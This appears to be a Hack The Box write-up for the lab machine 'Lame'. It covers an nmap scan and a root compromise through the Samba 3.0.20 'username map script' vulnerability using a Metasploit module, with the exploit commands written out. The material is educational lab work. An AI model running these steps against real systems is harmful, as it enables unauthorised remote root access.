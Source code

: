 ```yaml
---
title: "Lame"
tags:
  - Easy
  - Linux
  - samba
  - metasploit
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  |  10.10.10.3 |  | [Lame](https://app.hackthebox.com/machines/Lame) |  |

---

### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.10.3
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

From our **nmap** scan, we see that we are dealing with a **Linux** machine. Ports **21 (FTP)**, **22 (SSH)**, **139 & 445 (SMB)** and **3632 (distccd)** are open.

---
### SMB "username map script" RCE
Looking through the nmap results, I first noticed that the version of **vsftpd** was **2.3.4**, which I knew had a backdoor vulnerability. However, the backdoor was not exploitable in this instance.

My attention then went to SMB, which was running off version **3.0.20**. 

Searching online, I found that this version of SMB had an RCE vulnerability: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

By specifying a username containing shell meta characters, attackers are able to execute arbitrary commands. Since there already exists a Metasploit exploit for this vulnerability, I used it to gain access into the target machine:

```shell
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST tun0
run
```

This gave me a root shell, which I could then use to obtain user.txt and root.txt!

![screenshot1](../assets/images/Lame/screenshot1.png)

Note that user.txt can be found in the home directory of the user **makis**.
